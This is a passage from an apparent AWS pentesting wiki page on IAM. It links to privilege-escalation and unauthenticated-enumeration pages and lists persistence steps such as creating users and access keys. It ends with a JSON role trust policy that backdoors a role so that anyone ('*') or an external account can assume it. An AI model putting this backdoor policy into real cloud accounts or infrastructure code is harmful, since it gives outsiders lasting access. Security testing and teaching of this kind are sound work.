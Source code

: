 ### Privesc

In the following page you can check how to **abuse IAM permissions to escalate privileges**:

{% content-ref url="../../aws-privilege-escalation/aws-iam-privesc.md" %}
[aws-iam-privesc.md](../../aws-privilege-escalation/aws-iam-privesc.md)
{% endcontent-ref %}

### Privesc Abusing Confuse Deputy

{% content-ref url="aws-confused-deputy.md" %}
[aws-confused-deputy.md](aws-confused-deputy.md)
{% endcontent-ref %}

## Unauthenticated Access

{% content-ref url="../../../aws-pentesting/aws-unauthenticated-enum-access/aws-iam-and-sts-unauthenticated-enum.md" %}
[aws-iam-and-sts-unauthenticated-enum.md](../../../aws-pentesting/aws-unauthenticated-enum-access/aws-iam-and-sts-unauthenticated-enum.md)
{% endcontent-ref %}

## Persistence

* create a user
* create access keys (of the new user or of all users)
* create a role and attach it to the principal

### Backdooring Role Trust Policies

You could backdoor a trust policy to be able to assume it for an external resource controlled by you (or to everyone):

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": [
                    "*",
                    "arn:aws:iam::123213123123:root"
                ]
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```

## STS
